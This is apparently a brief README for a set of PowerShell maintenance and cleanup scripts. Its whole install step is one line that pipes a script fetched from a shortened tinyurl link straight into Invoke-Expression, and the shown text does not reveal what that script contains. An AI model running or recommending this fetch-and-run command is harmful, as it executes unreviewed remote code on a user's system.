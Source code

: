 # tools
A collection of PowerShell scripts for system maintenance and cleanup.

type the following line in powershell: 

irm tinyurl.com/chaco-beta |iex
